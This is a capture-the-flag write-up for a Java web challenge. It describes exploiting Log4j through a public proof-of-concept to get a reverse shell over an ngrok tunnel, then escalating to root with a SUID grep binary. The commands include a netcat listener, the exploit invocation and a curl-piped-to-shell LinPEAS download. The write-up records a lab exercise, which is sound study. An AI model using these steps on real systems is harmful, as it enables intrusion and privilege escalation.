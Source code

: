 # ezLog

> _Failed to solve this during the CTF_  
> _(Solved it with the help of my friend)_

## Challenge Description

This shop sells the freshest of all java coffee

Flag 1 is located at /home/user/flag1.txt

Flag 2 is located at /root/flag2.txt

Note: Replace user to the user you have gained access to

## Initial Look

The challenge is a web challenge  
![screenshot1](assets/screenshot1.jpg)

There are multiple hints in the challenge description and the webpage itself telling us that this is a Java web application.

Let's try to enter some wrong username and password:  
![screenshot2](assets/screenshot2.jpg)

We are greeted with an error page saying "we will **log** your information".

Searching for Java log vulnerabilities reveals that there is a Java Log4j vulnerability. After more searching, I found a [github repo](https://github.com/kozmer/log4j-shell-poc) with a Log4j vulnerability proof-of-concept.

## Setting up the tool

Cloning the repo and installing the required packages:
```
git clone https://github.com/kozmer/log4j-shell-poc.git
```
```
pip install -r requirements.txt
```

Reading the [readme file](https://github.com/kozmer/log4j-shell-poc#getting-the-java-version) we also needed to download an appropriate java version for the program to work.

Use `netcat` to listen for connections on port 4444:
```
nc -lnvp 4444
```

To allow the victim to connect to our local listening port, I'll be using `ngrok`  
![screenshot3](assets/screenshot3.jpg)

Since the proof of concept is made for testing a local server, some modifications are also needed for the python script:  
![screenshot4](assets/screenshot4.jpg)  
![screenshot5](assets/screenshot5.jpg)

## Getting the first flag

running the exploit script:
```
./poc-modified.py --userip 0.tcp.ap.ngrok.io --webport 9000 --lport 13352
```
![screencapture1](assets/screencapture1.mp4)

Flag 1 Captured: `FLAG{f6f7660539def9f18d140d2bde0c18f8}`

## Escalating privileges

Now that we have the 1st flag, it's time to escalate our privileges to read the 2nd flag.

> Remember that in the challenge description, the 2nd flag is located at `/root/flag2.txt`

![screenshot6](assets/screenshot6.jpg)

As expected, we will need root priveleges to read the file. Time to do some privilege escalation.

I used [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to scan the machine for any vulnerability to exploit.
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

Based on the legend, red/yellow text are what we should be looking out for:  
![screenshot7](assets/screenshot7.jpg)

Scrolling through the output, we found something that looks promising:
![screenshot8](assets/screenshot8.jpg)

I found an [article](https://gtfobins.github.io/gtfobins/grep/#suid) while searching for exploits related to `grep` and `suid`. We might be able to use the grep command to read files with root privileges!

Let's try it out:  
![screenshot9](assets/screenshot9.jpg)

Nice! We successfully got the second flag.

Flag 2 Captured: `FLAG{e5ac253a9968ca228161edc8e01faa8b}`
